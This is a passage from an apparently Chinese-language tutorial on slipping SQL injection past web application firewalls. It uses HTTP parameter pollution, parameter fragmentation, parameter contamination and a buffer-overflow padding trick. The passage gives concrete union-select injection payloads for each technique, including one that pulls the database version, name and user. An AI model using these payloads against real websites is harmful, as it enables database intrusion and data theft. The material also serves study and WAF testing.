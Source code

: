 这里HTTP参数控制除了对查询语句的参数进行篡改，还包括HTTP方法、HTTP头的控制

1.HPP(HTTP Parameter Polution)

举例：/?id=1;select+1,2,3+from+users+where+id=1—

　　　/?id=1;select+1&id=2,3+from+users+where+id=1—

　　　/?id=1/**/union/*&id=*/select/*&id=*/pwd/*&id=*/from/*&id=*/users

HPP又称做重复参数污染，最简单的就是?uid=1&uid=2&uid=3，对于这种情况，不同的Web服务器处理方式如下：



 ![](http://ww1.sinaimg.cn/large/007bHQE8gy1g59jnexmbbj30fc04ymzh.jpg)

 

具体WAF如何处理，要看其设置的规则，不过就示例中最后一个来看有较大可能绕过

2.HPF(HTTP Parameter Fragment)

这种方法是HTTP分割注入，同CRLF有相似之处(使用控制字符%0a、%0d等执行换行)

举例：　

　　/?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--

　　select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users—

看罢上面两个示例，发现和HPP最后一个示例很像，不同之处在于参数不一样，这里是在不同的参数之间进行分割，到了数据库执行查询时再合并语句。

3.HPC(HTTP Parameter Contamination)

这一概念见于exploit-db上的paper：Beyond SQLi: Obfuscate and Bypass，Contamination同样意为污染

RFC2396定义了如下一些字符：

Unreserved: a-z, A-Z, 0-9 and _ . ! ~ * ' ()
 Reserved : ; / ? : @ & = + $ ,
 Unwise : { } | \ ^ [ ] ` 

不同的Web服务器处理处理构造得特殊请求时有不同的逻辑：

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g59jo0bxzbj30cc04lgm7.jpg)

以魔术字符%为例，Asp/Asp.net会受到影响

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g59joe6rfqj30dt03haag.jpg)

## h) 缓冲区溢出(Advanced)

缓冲区溢出用于对付WAF，有不少WAF是C语言写的，而C语言自身没有缓冲区保护机制，因此如果WAF在处理测试向量时超出了其缓冲区长度，就会引发bug从而实现绕过

举例：

?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26

示例0xA*1000指0xA后面”A"重复1000次，一般来说对应用软件构成缓冲区溢出都需要较大的测试长度，这里1000只做参考，在某些情况下可能不需要这么长也能溢出

 
